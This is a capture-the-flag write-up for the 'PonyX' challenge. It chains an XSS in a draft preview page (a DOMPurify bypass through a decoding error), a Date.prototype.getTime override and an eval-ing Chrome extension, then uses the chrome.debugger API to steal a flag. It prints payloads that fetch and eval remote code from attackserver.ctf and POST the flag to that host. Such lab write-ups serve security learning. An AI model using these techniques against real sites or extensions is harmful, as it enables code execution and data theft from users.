


# PonyX

## Description

> There's a hip new social media platform in ~~town~~ Ponyville, and you are invited to take a look before launch!
>
> Sadly, you can only write drafts while the *cooler* kids are having all the fun :(
>
> P.S. I heard the Admin is testing a translator extension?

---

## Challenge

Provided with the challenge is a TAR file containing the sourcecode for a website and a Chrome extension. We can load
the extension in Chrome by going to ``chrome://extensions/`` and enabling developer mode. Then we can click
on ``Load unpacked`` and select the folder containing the extension.
Looking at the sourcecode of the extension, we can see that it is a simple extension that will translate the text on the
website.



This is done by the extension through injecting a script into the website.

```json
"content_scripts": [
{
"matches": [
"http://localhost:5000/posts/"
],
"js": [
"content.js"
],
"run_at": "document_end"
}
```

The script will then iterate over all posts on the website and translate the text of the post.

```javascript
function translateNode(author, node) {
    // Message passing
    chrome.runtime.sendMessage({
        type: "translation-request",
        data: {author: author, text: node.textContent}
    }, (response) => {
        // ...
    })
}

// Grab all post nodes
var posts = document.querySelectorAll("div.post");
posts.forEach(post => {
    // Extract information and translate
    const author = post.querySelector("p.author").textContent;
    const contentNode = post.querySelector("p.content");
    translateNode(author, contentNode);
});
```

The translation is done by sending a request to the `background.js` script, which will then translates the text based on
the post author. If the author is `robot-pony` it will simply `eval` the text.

```javascript
// Message passing
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
    // ...
else
    if (message.data.author === "robot-pony") {
        sendResponse({type: "translation-response", data: {text: eval(message.data.text)}});
    }
    // ...
});
```

This means that we can execute arbitrary JavaScript code on the website by creating a post with the author `robot-pony`.
The only problem is that the website is only a draft, so we can't create any actual posts.

## Solution

### Initial XSS

What we can do instead is to create a post draft which will be shown on the `/draft/preview.html` page.



But this page doesn't get translated by the extension. But what the `/draft/preview.html` page has is a XSS
vulnerability. This page
will take the `data` parameter from the URL and insert it into the HTML of the page. Before inserting it, it will use
the `DOMPurify` library to sanitize the input.
If we look closely, we can see that the unsanitized content is already put into the variable `data` before it is
passed to `DOMPurify`. The `data` variable is later used to set the `innerHTML` of the `preview` element.

```javascript
const urlParams = new URLSearchParams(window.location.search);
var data = "No data found";
try {
    if (urlParams.get('data')) {
        data = urlParams.get('data');
        data = DOMPurify.sanitize(decodeURIComponent(data))
    }
} catch {
    console.log("An Error Occured?");
}
document.getElementById("preview").innerHTML = data;
```

Additionally, before sanitization `data` is url decoded. Both, sanitization and url decoding happens within a `try`
block, but not the assignment of the `data` variable to the `innerHTML`. **This means that if an error occurs during
sanitization or url decoding, `data` will be inserted into the HTML unsanitized.** An error can be triggered by simply
adding a `%%` to the URL.

### Get XSS on the `/posts/` page

Now we are still on the `/draft/preview.html` page. To get the flag we still need to get code execution in the extension
and that is only possible from the `/posts/` page. However, we can't access the `/posts/` page directly from
the `/draft/preview.html` page, but we can use the `window.open` function to open a new window with the `/posts/` page.

```javascript
var newWindow = window.open('{BASE_URL}posts/');
```

Because the `/posts/` page is on the same domain as the `/draft/preview.html` page, we can now control the `newWindow`
object and through that execute code on the `/posts/` page as well.

## Inject a post for RCE

Now we can inject a post into the `/posts/` page that should then be processed by the extension. The problem here is
that we need to add
the post to the DOM of the `/posts/` page before the extension is executed, but at the same time when the page is
already partially
loaded, so our added post won't get removed through the loading process. This means that we can't use the onload event
of the page.

After some looking around we found the `animation-sync.js` script which is used to synchronize the background animation
of the website.

```javascript
// Needs to be at top of body to trigger before rendering starts
document.getAnimations()[0].currentTime = new Date().getTime();
```

This script is added through the `base.html` to the `<head>` of the website. This means that it will be executed before
the extension is loaded. Exactly what we need. The script uses the `Date.getTime()` function. We can utilize this by
adding a script to the `/posts/` page that will overwrite the `Date.getTime()` function with our own function that will
execute our code at the right moment.

```javascript
Date.prototype.getTime = function () {
    // Execute code here
    return new Date().valueOf();
}
```

Now in this context, we can create a post to the `/posts/` page that will be added at the right moment and loaded by the
extension.


<details>
  <summary>Full /posts/ page XSS code</summary>

```javascript
Date.prototype.getTime = function () {
    setTimeout(function () {
        // Create a new div element
        var newPostDiv = document.createElement('div');
        newPostDiv.className = 'post';

        // Create a paragraph for the author
        var authorParagraph = document.createElement('p');
        authorParagraph.className = 'author';
        authorParagraph.textContent = 'robot-pony';

        // Create a paragraph for the content
        var contentParagraph = document.createElement('p');
        contentParagraph.className = 'content';
        contentParagraph.textContent = 'fetch(\'http://attackserver.ctf/xss2.js\').then(response => response.text()).then(sC => {eval(sC);}).catch(e => console.error(\'Error:\', e));';

        // Append the paragraphs to the new div
        newPostDiv.appendChild(authorParagraph);
        newPostDiv.appendChild(contentParagraph);

        var pageDiv = document.querySelector('div.page');
        console.log(pageDiv);

        // Check if pageDiv is not null before appending
        if (pageDiv) {
            // Append the new div to the div.page element
            pageDiv.appendChild(newPostDiv);
        } else {
            console.error('div.page element not found');
        }
    }, 1);
    // Original getTime function
    return new Date().valueOf();
};
```

[xss.js](xss.js)

</details>

## RCE in the extension

Now we can create a code that gets picked up by the extension and executed. We decided to use a simple fetch to get a
second JavaScript file from our server and then execute this one as well for simplicity.

```javascript
fetch('http://attackserver.ctf/xss2.js').then(response => response.text()).then(sC => {
    eval(sC);
}).catch(e => console.error('Error:', e));
```

While testing around we noticed that chrome would complain about CORS when trying to fetch the second JavaScript file.
To fix this instead of using `python3 -m http.server` we just used the following script to serve the
files: https://gist.github.com/acdha/925e9ffc3d74ad59c3ea

## Get the flag

The flag is stored in a local text file. So we cannot simply fetch it from the extension. But looking at the sourcecode
of the extension we can see that the extension has debug permissions. This means that we can use the `chrome.debugger`
API.

```json
"permissions": [
"debugger"
]
```

Looking at the code of the bot we can see that the bot, before visiting our link will open the flag in a separate tab.
This means that we can use the `chrome.debugger` API to get the flag from the bot.

```javascript
chrome.debugger.getTargets((result) => {
    result.forEach((target) => {
        if (target.title.includes("flag")) {
            console.log("Found flag!");
            chrome.debugger.attach({targetId: target.id}, "1.3", () => {
                chrome.debugger.sendCommand({targetId: target.id}, "DOM.getDocument", {}, (result) => {
                    chrome.debugger.sendCommand({targetId: target.id}, "DOM.getOuterHTML", {nodeId: result.root.nodeId}, (response) => {
                        // Get the flag from the response
                        chrome.debugger.detach({targetId: target.id});
                    });
                });
            });
        }
    });
});
```

We simply made a fetch that send the content of the flag to our server.

```javascript
fetch("https://attackserver.ctf/flag", {
    method: "POST",
    body: JSON.stringify({flag: response.outerHTML})
})
```

## Solving script

* [xss.py](xss.py)
* [xss.js](xss.js)
* [xss2.js](xss2.js)

## Useful links

* https://developer.chrome.com/docs/extensions/reference/api/debugger?hl=en
* https://github.com/aszx87410/ctf-writeups/issues/20